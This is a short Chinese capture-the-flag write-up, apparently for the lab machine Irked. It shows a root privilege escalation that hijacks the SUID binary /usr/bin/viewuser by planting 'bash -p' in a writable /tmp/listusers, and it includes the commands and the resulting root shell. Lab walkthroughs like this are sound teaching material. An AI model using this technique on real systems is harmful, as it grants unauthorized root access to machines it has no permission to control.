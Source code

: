 发现这个命令有点可疑：```/usr/bin/viewuser```


使用strings命令查看
```
djmardov@irked:/tmp$ strings /usr/bin/viewuser 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setuid
puts
system
__cxa_finalize
__libc_start_main
GLIBC_2.0
GLIBC_2.1.3
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
This application is being devleoped to set and test user permissions
It is still being actively developed
/tmp/listusers
```
这个命令会执行另外一句命令：```/tmp/listusers```

```listusers```这个命令不存在，而```/tmp```目录我们是可写的

那就很简单了，先创建一个```listusers```文件

> touch /tmp/listusers

再写命令到这个文件

> echo "bash -p" > /tmp/listusers

赋权可执行
> chmod +x listusers


执行SUID，提权到root
```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-22 05:03 (:0)
djmardov pts/1        2021-12-22 05:14 (10.10.14.3)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# whoami
root
root@irked:/tmp# cat /root/root.txt
{就不告诉你}
